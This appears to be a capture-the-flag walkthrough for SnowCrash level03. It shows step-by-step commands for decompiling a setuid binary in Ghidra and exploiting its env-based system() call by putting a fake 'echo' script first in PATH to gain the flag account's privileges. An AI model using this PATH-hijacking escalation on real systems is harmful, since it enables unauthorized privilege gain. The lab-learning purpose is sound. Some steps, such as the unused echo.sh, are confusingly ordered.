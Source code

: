 ## 1. Connect to level03:

```bash
level02@SnowCrash:~$ su level03
password: *use previously found flag*
```

## 2. See existing files:

```bash
level03@SnowCrash:~$ ls -l
    total 12
    -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

## 3. Locally download the file (on local computer terminal, not VM):

```bash
level03@SnowCrash:~$ scp -P 4242 level03@<your VM's IP address>:/home/user/level03/level03 ~
```

## 4. Use *`Ghidra`* application to convert file into readable code
Once open, look to the left, *Symbol Tree* > *Functions* > *main*
Look at the main and find the line

```bash
iVar1 = system("/usr/bin/env echo Exploit me");
```

## 5. Write and execute bash script that will transform the `echo` command into `getflag` command (in the VM)

```bash
# Create script file in /tmp because it is the only directory in which we have creation/edition/deletion rights
level03@SnowCrash:~$ cd /tmp
level03@SnowCrash:~$ touch echo echo.sh

# Write the cript into echo.sh:
level03@SnowCrash:~$ echo '#!/bin/bash' > /tmp/echo
level03@SnowCrash:~$ echo 'getflag' >> /tmp/echo

# Give yourself the rights
level03@SnowCrash:~$ chmod +x /tmp/echo

# Add `/tmp` at the beginning of PATH
level03@SnowCrash:~$ export PATH="/tmp:$PATH"

# Execute `level03` binary file
level03@SnowCrash:~$ ./../home/user/level03/level03

# Make the script executable
level03@SnowCrash:~$ chmod +x echo.sh

# Launch the script
level03@SnowCrash:~$ ./echo.sh
```

The program uses the `env` command, which searches for the `echo` command in the `PATH` variable. By placing your directory (`/tmp`) at the beginning of `PATH`, your version of `echo` is found first. As a result, the program executes your script instead of the system command.